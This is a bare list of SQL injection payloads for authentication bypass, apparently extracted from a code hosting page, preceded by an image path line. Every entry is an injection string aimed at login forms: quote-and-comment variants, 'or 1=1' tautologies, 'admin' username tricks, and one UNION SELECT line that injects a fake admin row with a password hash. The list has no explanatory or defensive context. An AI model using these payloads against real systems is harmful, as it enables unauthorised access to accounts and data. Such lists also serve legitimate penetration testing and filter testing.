 ```sql
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
```